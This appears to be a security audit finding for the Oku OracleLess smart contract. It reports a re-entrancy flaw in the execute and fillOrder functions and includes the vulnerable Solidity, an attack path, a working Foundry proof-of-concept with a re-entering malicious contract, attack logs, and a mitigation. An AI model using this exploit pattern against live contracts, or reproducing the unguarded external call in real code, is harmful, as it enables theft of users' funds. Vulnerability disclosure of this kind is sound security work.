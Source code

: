 Urban Blonde Millipede

High

# A re-entrancy in the execute function can drain the smart contract balance

### Summary

The fillOrder function can be re-entered by a malicious contract, this contract can drain the whole balance of the protocol.

### Root Cause

The root cause is the execute function, it calls the target which is an untrusted contract that can re-enter the system to cause harm, in this situation the malicious contract will reenter the `fillOrder` function, thereby stealing funds from the contract and only pay the first order.
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L240
```solidity
    function execute(
        address target,
        bytes calldata txData,
        Order memory order
    ) internal returns (uint256 amountOut, uint256 tokenInRefund) {
        //update accounting
        uint256 initialTokenIn = order.tokenIn.balanceOf(address(this));
        uint256 initialTokenOut = order.tokenOut.balanceOf(address(this));

        //approve
        order.tokenIn.safeApprove(target, order.amountIn);

        //perform the call
        (bool success, bytes memory reason) = target.call(txData);

        if (!success) {
            revert TransactionFailed(reason);
        }

        uint256 finalTokenIn = order.tokenIn.balanceOf(address(this));
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
        uint256 finalTokenOut = order.tokenOut.balanceOf(address(this));

        require(
            finalTokenOut - initialTokenOut > order.minAmountOut,
            "Too Little Received"
        );

        amountOut = finalTokenOut - initialTokenOut;
        tokenInRefund = order.amountIn - (initialTokenIn - finalTokenIn);
    }
```

### Internal pre-conditions

At least two pending orders of the same tokenIn and tokenOut.

### External pre-conditions

_No response_

### Attack Path

- The attacker creates a malicious contract like the one on my POC
- The attacker Fills the larger order with the malicious contract as the target.
- The malicious contract pulls the user tokenIn and does not send any token out,
- It will reenter the contract with order 2 to fill it, this time it is going to still pull tokenIn and then send tokenOut to the protocol.
- By doing this, the attacker received two payments, but only sent out one.


### Impact

The attacker can re-enter as many orders as possible and drain the balance of the whole contract, same vulnerability can be found in the bracket contract. If there are 1000 orders the attacker can fill all and receive the tokens, but the attack will only pay for one.

### PoC

You need to install openzepplin for this to work.

From the output below, we can see that the attackers have gain twice their initial Balance.

```bash
Logs:
  ATTACKER BALANCE BEFORE ATTACK :  10000000000000000000
  MALICIOUS CONTRACT ALLOWANCE   :  0
  ATTACK BALANCE AFTER ATTACK    :  20000000000000000000
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";
import "../contracts/interfaces/uniswapV3/IPermit2.sol";
import "../contracts/interfaces/openzeppelin/ERC20.sol";
import "../contracts/interfaces/openzeppelin/IERC20.sol";

contract MaliciousTarget {

    IERC20 tokenIn;
    IERC20 tokenOut;
    uint96 secondId;
    address receiver;


    constructor (address _receiver, IERC20 _tokenIn, IERC20 _tokenOut) {
        tokenIn = _tokenIn;
        tokenOut = _tokenOut;
        receiver = _receiver;
    }

    fallback () external payable {
        if (tokenIn.balanceOf(msg.sender) >= 10 ether) {
            tokenIn.transferFrom(msg.sender, receiver, 10 ether);
            if (tokenIn.balanceOf(msg.sender) < 20 ether) { 
                tokenOut.transfer(msg.sender, 10 ether);
            } else {
                OracleLess(msg.sender).fillOrder(1, secondId, address(this), "0x");
            }
        }
    }

    function setOrderId(uint96 id2) external {
        secondId = id2;
    }


}


contract PocTest3 is Test {

    AutomationMaster automationMaster;
    OracleLess oracleLess;
    IPermit2 permit2;
    IERC20 tokenIn;
    IERC20 tokenOut;
    MaliciousTarget target;

    address attacker = makeAddr("attacker");
    address alice = makeAddr("alice");

    function setUp() public {
    
        automationMaster = new AutomationMaster();
        oracleLess = new OracleLess(automationMaster, permit2);
        tokenIn = IERC20(address(new ERC20Mock()));
        tokenOut = IERC20(address(new ERC20Mock()));

        target = new MaliciousTarget(attacker, tokenIn, tokenOut);
        //MINT
        ERC20Mock(address(tokenIn)).mint(alice, 100 ether);
        ERC20Mock(address(tokenIn)).mint(attacker, 10 ether);
        ERC20Mock(address(tokenOut)).mint(address(target), 100 ether);

    }

    function testAttack() public {

        //Innocent User
        vm.startPrank(alice);
        tokenIn.approve(address(oracleLess), 100 ether);
        uint96 orderId1 = oracleLess.createOrder(tokenIn, tokenOut, 10 ether, 9 ether, alice, 1, false, '0x0');
        uint96 orderId2 = oracleLess.createOrder(tokenIn, tokenOut, 10 ether, 9 ether, alice, 1, false, '0x0');
        vm.stopPrank();

        //Attacker

        console.log("ATTACKER BALANCE BEFORE ATTACK : ", tokenIn.balanceOf(attacker));
        vm.startPrank(attacker);

        target.setOrderId(orderId2);
 

        oracleLess.fillOrder(0, orderId1, address(target), "0x");

        console.log("MALICIOUS CONTRACT ALLOWANCE   : ",tokenIn.allowance(address(oracleLess), address(target)));

        //Spend allowance

        console.log("ATTACK BALANCE AFTER ATTACK    : ", tokenIn.balanceOf(attacker));

        vm.stopPrank();

    }



}
```

### Mitigation

1. Use non-re-entrant modify for every public facing function. 